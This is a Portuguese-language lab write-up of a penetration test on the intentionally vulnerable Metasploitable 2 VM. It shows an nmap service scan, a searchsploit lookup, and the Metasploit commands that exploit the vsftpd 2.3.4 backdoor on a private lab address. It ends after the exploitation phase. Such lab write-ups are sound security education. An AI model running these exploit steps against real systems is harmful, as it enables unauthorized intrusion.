 # Write-up: Pentest na Máquina Metasploitable 2

Este é um relatório detalhado do teste de invasão realizado na máquina virtual Metasploitable 2, dentro de um ambiente de laboratório controlado.

**Máquina-Alvo:** Metasploitable 2

**Máquina de Ataque:** Kali Linux

**Objetivo:** Identificar vulnerabilidades, explorá-las para obter acesso inicial e escalar privilégios.

---

## Fase 1: Reconhecimento (Reconnaissance)

O primeiro passo foi identificar as portas e serviços rodando na máquina-alvo. Utilizei a ferramenta `nmap` com os seguintes comandos: **nmap -sV -p- 192.168.56.102**. O scan revelou várias portas abertas. A mais crítica parecia ser a porta 21 (FTP), que está rodando uma versão antiga: vsftpd 2.3.4.

<img width="646" height="517" alt="nmap-scan png" src="https://github.com/user-attachments/assets/41874998-8607-4181-8d77-e6d23cde642f" />


## Fase 2: Análise de Vulnerabilidade

Com foco no serviço vsftpd 2.3.4, usei o comando **searchsploit** para verificar por falhas conhecidas. O resultado confirmou que esta versão possui um backdoor crítico quee permite a execução remota de comandos.

<img width="646" height="215" alt="searchexploit png" src="https://github.com/user-attachments/assets/4dc6c711-1428-4723-b2c8-d2b7ac253e56" />


## Fase 3: Exploração

Encontradas as vulnerabilidades, iniciei o o processo de invasão do sistemas por meio de diversos comandos:
**msf6 > search vsftpd_234
  msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
  msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.102
  msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit**

<img width="635" height="230" alt="invasao png" src="https://github.com/user-attachments/assets/02a14128-052f-483b-9257-6d5b822f56db" />

